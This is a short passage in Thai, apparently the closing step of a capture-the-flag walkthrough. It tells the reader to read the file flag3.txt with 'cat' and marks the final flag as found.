- จะพบไฟล์ `flag3.txt` ให้ใช้คำสั่งอ่าน:

```bash
cat flag3.txt
```


- ✅ ได้ `Flag` สุดท้าย




